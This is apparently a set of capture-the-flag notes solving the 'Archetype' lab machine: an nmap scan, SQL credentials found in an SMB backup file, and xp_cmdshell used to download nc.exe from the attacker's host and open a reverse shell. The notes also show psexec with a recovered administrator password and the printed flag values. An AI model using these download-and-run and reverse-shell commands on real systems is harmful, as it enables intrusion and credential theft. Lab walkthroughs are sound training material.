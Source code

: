 inet 10.10.14.69  netmask 255.255.254.0
inet6 fe80::d484:44d2:fd97:c02c

sudo nmap -sC -sV -A 10.10.10.27

PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM

target name: ARCHETYPE
Host script results:
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: "guest"
|   authentication_level: "user"
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2021-09-19T08:27:51
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: "Archetype"
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-09-19T01:27:52-07:00
|_clock-skew: mean: 1h49m02s, deviation: 3h07m52s, median: 25m01s

Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
backups         Disk      
C$              Disk      Default share
IPC$            IPC       Remote IPC

altname: PROD~1.DTS
create_time:    一  1月 20 20時20分57秒 2020 CST
access_time:    一  1月 20 20時23分02秒 2020 CST
write_time:     一  1月 20 20時23分02秒 2020 CST
change_time:    一  1月 20 20時23分18秒 2020 CST
attributes: RA (21)
stream: [::$DATA], 609 bytes

prod.dtsConfig in backups

<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>

[[domain/]username[:password]@]<targetName or address>

impacket-mssqlclient sql_svc:M3g4c0rp123@10.10.10.27 -windows-auth

sp_configure make sure xp_cmdshell is opened

local runs python3 -m http.server to upload nc.exe makes remote wget

xp_cmdshell powershell wget http://10.10.14.69:8000/nc.exe -outfile %TEMP%\nc.exe

nc -lvnp 5678

xp_cmdshell powershell %TEMP%\nc.exe -nv 10.10.14.69 5678 -e cmd.exe

user.txt
3e7b102e78218e935bf3f4951fec21a3

powershell history.txt
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine

net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit

impacket-psexec administrator@10.10.10.27
or impacket-psexec administrator:'MEGACORP_4dm1n!!'@10.10.10.27

root.txt
b91ccec3305e98240082d4474b848528
